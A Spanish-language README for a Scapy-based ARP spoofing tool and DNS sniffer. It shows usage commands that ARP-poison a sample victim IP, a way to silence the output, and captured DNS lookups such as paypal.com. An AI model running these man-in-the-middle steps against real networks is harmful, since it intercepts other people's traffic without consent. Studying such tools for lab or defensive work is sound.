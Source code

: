 # ARP Spoof 
Intercepta paquetes en la red local & Sniffer DNS.

### Modo de uso:

## Arp Spoof

`./arp_spoof.py -h`

  usage: arp_spoof.py [-h] -t IP_ADDRESS

  ARP Spoofer using Scapy

  options:

    -h, --help
            show this help message and exit

    -t IP_ADDRESS, --target IP_ADDRESS
            Specify a particular Host/IP to ARP poison.

Victima Ejemplo: 192.168.1.2

`sudo ./arp_spoof.py -t 192.168.1.2`

.
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.

[!] Nota: Si no desea ver el output del Script ejecutarlo de la siguiente manera.

`sudo ./arp_spoof.py -t 192.168.1.2 &>/dev/null`

## DNS Sniffer

`sudo ./dns_sniffer`

    [+] Dominio www.paypal.com.
    [+] Dominio m.facebook.com.
    [+] Dominio dev-example.domain-internacional.net.


### Instalación:

**Linux**

`python3  pip install -r requeriments.txt`

